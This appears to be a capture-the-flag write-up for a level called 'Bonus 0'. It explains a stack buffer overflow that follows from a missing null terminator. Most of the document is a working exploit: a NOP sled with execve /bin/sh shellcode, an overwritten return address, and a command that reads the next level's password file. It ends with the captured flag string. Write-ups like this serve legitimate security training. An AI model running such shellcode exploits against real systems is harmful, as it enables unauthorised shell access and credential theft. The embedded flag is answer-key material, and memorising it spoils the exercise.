 # Bonus 0

This time the executable takes 2 inputs and copies the first 20 characters in a 20 character array. It replace the terminating newline character by a null byte but it still copies only the 20 first bytes so if there is no \n in the first 20 characters it will not put one in the final buffer. We will use a NOP slope to place our shellcode somewhere in the memory far enough to not be overwritten by the second input and so we do not need to pinpoint the exact address of the shellcode which will make it easier to not have any \x00 in the final address. Then we want to overflow in EIP pointer and put any address within the NOP slope before the shellcode (it needs to be far enough to be in the part that is not affected by the second input).

```bash
(python -c 'print "\x90" * 128 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80"'; python -c 'print " " * 9 + "\xf0\xe6\xff\xbf" + "N" * 42'; cat) | ./bonus0
cat /home/user/bonus1/.pass
```

**Flag:** `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`
